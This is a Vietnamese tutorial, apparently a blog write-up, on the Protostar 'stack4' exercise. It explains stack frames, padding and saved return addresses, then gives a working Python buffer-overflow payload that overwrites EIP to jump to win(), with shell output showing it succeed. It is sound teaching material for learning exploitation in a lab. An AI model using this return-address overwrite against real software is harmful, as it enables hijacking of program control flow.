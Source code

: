```yaml
---
layout: post
title: stack4
---
```

Kỹ thuật trong bài trước giới thiệu cách tìm và gán địa chỉ hàm để gọi đến hàm đó.
Tuy nhiên, việc gọi hàm thành công là do trong source code đã có sẵn dòng lệnh với mục đích tương tự.
Trong bài này, chúng ta sẽ tìm hiểu cách thức gọi hàm hoàn toàn ngoài ý muốn của chương trình.
Hãy xem source code sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Có thể thấy bên trong hàm `main` chỉ gọi `gets` để lấy giá trị người dùng nhập vào và gán cho biến `buffer`.
Chương trình sẽ thoát ngay sau đó mà không có thêm lệnh nào khác.
Tuy nhiên, nếu nhìn vào asm code của chương trình như dưới đây, ta sẽ thấy có thêm 2 lệnh được chạy.
```asm
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```
2 lệnh được nhắc đến là `leave` và `ret`, tương đương với `return` trong C.
Lưu ý rằng chạy một chương trình tương tự như việc gọi 1 hàm con.
Trước khi lệnh đầu tiên của hàm con được thực thi, CPU sẽ lưu lại địa chỉ của lệnh kế tiếp cần được thực hiện sau khi hàm con kết thúc.
Khi hàm con return về hàm đã gọi nó, địa chỉ này sẽ được `pop` vào `eip`, và lệnh tại đó được thực thi.
Ví dụ, hãy cùng xem stack ngay trước vào khi gọi hàm `gets` trong `main` của chương trình stack4.
Phân biệt theo màu: <span style="color:aqua">esp</span> và <span style="color:orangered">eip</span>.
<pre class="memory">
<span style="color:orangered">0x08048418</span> <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
...
0xbffff748:     0xb7fff8f8
0xbffff74c:     0xb7f0186e
<span style="color:aqua">0xbffff750</span>:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>
Ngay sau khi lệnh `call` được thực thi.
<pre class="memory">
<span style="color:orangered">0x0804830c</span> <gets@plt+0>:        jmp    DWORD PTR ds:0x80495fc
...
0xbffff748:     0xb7fff8f8
<span style="color:aqua">0xbffff74c</span>:     0x0804841d
0xbffff750:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>
Ở đây, lệnh cần được thực thi sau khi `gets` hoàn thành nằm ở địa chỉ `0x804841d`.
Do vậy lệnh này được `push` vào stack.

Khi áp dụng lý thuyết này vào trường hợp stack4 được gọi bởi hệ điều hành, ta biết được sẽ có 1 địa chỉ lệnh được lưu vào bộ nhớ để dùng sau khi stack4 kết thúc.
`ret` của stack4 sẽ pop giá trị địa chỉ này vào `eip` sau khi nó được thực thi.
Nếu biết vị trí lưu địa chỉ này, chúng ta có thể exploit chương trình bằng cách ghi đè địa chỉ khác lên nó và điều hướng cho chương trình thực thi lệnh lưu ở địa chỉ mới.
Các hacker sử dụng lý thuyết này để điều hướng và chạy đoạn mã độc của họ.

Callee và caller là thuật ngữ để chỉ một hàm (caller) gọi một hàm khác (callee).
Cần lưu ý thêm rằng ngoài địa của lệnh kế tiếp, `ebp` của caller cũng được lưu lại.
(nếu để ý đoạn code sẽ thấy lệnh `push ebp` là lệnh đầu tiên của main.)
Một vài calling convention quyết định bởi compiler, trong đó có ví dụ stack4 của bài viết này, sẽ lưu `eip`, tiếp theo là 4 byte `ebp` lên stack, và có thêm cả padding.
Callee sẽ có `ebp` chính là `esp` của caller.
Padding trong bài này có thể thấy qua lệnh `and esp,0xfffffff0`. Lệnh này sẽ biến thay đổi 4 bit nhỏ nhất trong giá trị `esp` về 0.
(kỹ thuật này còn được gọi là memory alignment, dùng để tối ưu và tăng tốc truy cập bộ nhớ.)
Như vậy padding sẽ có độ dài thông thường là 0, 4, 8, hoặc 12 byte.
Để ghi đè vào đúng địa chỉ mong muốn, ta sẽ cần quan tâm đến phần padding này.

Từ asm code của `main` (callee), ta thấy được `buffer` sẽ chiếm 64 byte bộ nhớ từ `esp + 0x10` đến `esp + 0x4f`.
Ngay sau `buffer`, bắt đầu từ `esp + 0x50` sẽ là phần bao gồm padding với độ dài không chắc chắn và theo sau với 4 byte `ebp` của caller trước khi chạm đến được địa chỉ `eip` của caller.
Như vậy, ta sẽ cần chuẩn bị giá trị tương đương khoảng 64 + 12 + 4 + 4 = 84 byte để làm tràn `buffer` và lưu địa chỉ mới cho `eip` của caller.
Sau đây là giá trị được dùng làm ví dụ, với địa chỉ của win là `0x080483f4`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">vùng padding, ebp, eip của caller</span>.

<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080495ec</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482e8</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080495ec</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048449</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048430</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804843b</span>      <span style="color:aqua">0xb7fd7ff4</span>
0xbffff7a0:     <span style="color:orangered">0x08048430</span>      <span style="color:orangered">0x00000000</span>      <span style="color:orangered">0xbffff828</span>      <span style="color:orangered">0xb7eadc76</span>
0xbffff7b0:     <span style="color:orangered">0x00000001</span>      0xbffff854      0xbffff85c      0xb7fe1848
</pre>
Sau khi gọi hàm `gets`:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 5" > input.txt
stack4 < input.txt
```
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0x41414141</span>      <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>
0xbffff770:     <span style="color:aqua">0x45454545</span>      <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>
0xbffff780:     <span style="color:aqua">0x31313131</span>      <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>
0xbffff790:     <span style="color:aqua">0x35353535</span>      <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>
0xbffff7a0:     <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>
0xbffff7b0:     <span style="color:orangered">0x080483f4</span>      0xbffff800      0xbffff85c      0xb7fe1848
</pre>

Lời giải này giả thiết chúng ta không biết về padding.
Trên thực tế, ta có thể dùng gdb để kiểm tra độ dài này.
Cụ thể, độ dài này sẽ nên là 8 byte thay vì 12 byte.
Dùng 12 byte sẽ khiến chương trình lưu thêm 1 lần địa chỉ của `win` vào phía sau, dẫn dến 2 lần thực thi hàm `win` này.
Bạn có thể xem kết quả chạy ở cuối bài viết.

## Ref
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 5" > input.txt
user@protostar:~$ stack4 < input.txt
code flow successfully changed
code flow successfully changed
Segmentation fault
```

Lời giải phổ biến hơn với giả định padding thông thường dài 8 byte:
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 4" > input.txt
user@protostar:~$ stack4 < input.txt
code flow successfully changed
Segmentation fault
```
